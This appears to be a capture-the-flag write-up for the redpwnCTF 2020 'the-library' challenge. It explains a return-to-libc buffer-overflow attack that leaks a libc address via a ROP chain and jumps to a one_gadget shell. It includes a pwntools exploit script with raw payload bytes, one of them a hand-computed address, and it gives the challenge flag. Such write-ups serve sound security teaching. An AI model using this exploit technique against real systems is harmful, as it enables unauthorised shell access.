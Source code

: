 ```yaml
---
layout: post
title: "the-library"
author: "raghul-rajasekar"
---
```


There's not a lot of useful functions in the binary itself. I wonder where you can get some...
`nc 2020.redpwnc.tf 31350`

**Files:**
- [the-library]({{site.baseurl}}/assets/the-library/the-library)
- [the-library.c]({{site.baseurl}}/assets/the-library/the-library.c)
- [libc.so.6]({{site.baseurl}}/assets/the-library/libc.so.6)

## Solution

Let's take a look at the disassembly of `the-library` using IDA:

![secret-flag disassembly]({{ site.baseurl }}/assets/the-library/the-library.png)

As the program doesn't interact with the flag in any way, it seems our only option is to create a reverse shell to access the files on the server. Running `checksec the-library` reveals that NX is enabled, so we will have to execute a [return-to-libc attack](https://en.wikipedia.org/wiki/Return-to-libc_attack). Since we are also provided the `libc.so.6` file, we can use the [`one_gadget`](https://github.com/david942j/one_gadget) tool to identify possible addresses to return to which will invoke a reverse shell.

There's one small catch though: ASLR is enabled. This means that we will first have to find the offset at which `libc` is loaded and add the address of our gadget to it to get the final return address, which will then be inserted into the stack using buffer overflow. How do we do this, considering that the second step depends on the first? I wasn't sure how to go about this until [this write-up](https://made0x78.com/bseries-ret2libc/) offered a simple solution: leak some address from `libc`, return to the beginning of `main` and perform a second buffer overflow to jump to the gadget.

A candidate address to leak is that of `setbuf` (GOT table entry at `0x601020`). In order to leak the address, we will have to stitch a few gadgets together on the stack. The order I chose is
```
<-- (Stack extends this way) pop edi <-- 0x601020 <-- puts <-- address of main
```
>Note: I found the gadget `pop edi` using [`ROPgadget`](https://github.com/JonathanSalwan/ROPgadget) on the `the-library` binary itself; hence, its address is known. The call to `puts` is made by jumping to its PLT entry.

In this way, we can find the offset at which `libc` is loaded (since we can also find the offset of `setbuf` within `libc.so.6`, which turns out to be `0x884d0`). We then perform a second buffer overflow to jump to the gadget at `0x4f2c5` in `libc` identified by `one_gadget` (thankfully, the required conditions for the gadget that the stack must be aligned to 16 bytes and `rcx` must be zeroed out were satisfied). The overall process looks like this:

```python
from pwn import remote
p = remote('2020.redpwnc.tf', 31350)
p.read()
p.write('abcdabcdabcdabcdabcdabcd\x33\x07\x40\x00\x00\x00\x00\x00\x20\x10\x60\x00\x00\x00\x00\x00\x20\x05\x40\x00\x00\x00\x00\x00\x37\x06\x40\x00\x00\x00\x00\x00')  # pop edi; puts; go back to main;
ret = p.read()
hex(int(ret[47:41:-1].hex(), 16) - int('884d0', 16) + int('4f2c5', 16))
p.write('abcdabcdabcdabcdabcdabcd\xc5\x82\x21\x25\x9e\x7f\x00\x00\n')  # Ended up calculating the gadget address manually
p.interactive()  # do whatever you want with shell here
```

## Flag

`flag{jump_1nt0_th3_l1brary}`

